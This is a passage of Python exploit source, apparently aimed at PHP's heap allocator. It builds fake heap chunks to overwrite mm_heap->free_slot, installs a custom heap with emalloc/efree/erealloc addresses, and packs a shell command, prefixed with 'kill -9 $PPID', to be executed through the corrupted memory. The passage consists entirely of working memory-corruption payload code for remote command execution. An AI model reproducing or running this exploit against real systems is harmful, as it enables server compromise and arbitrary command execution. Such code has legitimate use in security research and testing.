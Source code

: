 ```python
        step4 = chunked_chunk(step4)
        step4 = chunked_chunk(step4)
        step4 = chunked_chunk(step4)
        step4 = compressed_bucket(step4)

        # This chunk will eventually overwrite mm_heap->free_slot
        # it is actually allocated 0x10 bytes BEFORE it, thus the two filler values
        step4_pwn = ptr_bucket(
            0x200000,
            0,
            # free_slot
            0,
            0,
            ADDR_CUSTOM_HEAP,  # 0x18
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            ADDR_HEAP,  # 0x140
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            size=CS,
        )

        step4_custom_heap = ptr_bucket(
            ADDR_EMALLOC, ADDR_EFREE, ADDR_EREALLOC, size=0x18
        )

        step4_use_custom_heap_size = 0x140

        COMMAND = self.command
        COMMAND = f"kill -9 $PPID; {COMMAND}"
        if self.sleep:
            COMMAND = f"sleep {self.sleep}; {COMMAND}"
        COMMAND = COMMAND.encode() + b"\x00"

        assert (
            len(COMMAND) <= step4_use_custom_heap_size
        ), f"Command too big ({len(COMMAND)}), it must be strictly inferior to {hex(step4_use_custom_heap_size)}"
        COMMAND = COMMAND.ljust(step4_use_custom_heap_size, b"\x00")

        step4_use_custom_heap = COMMAND
```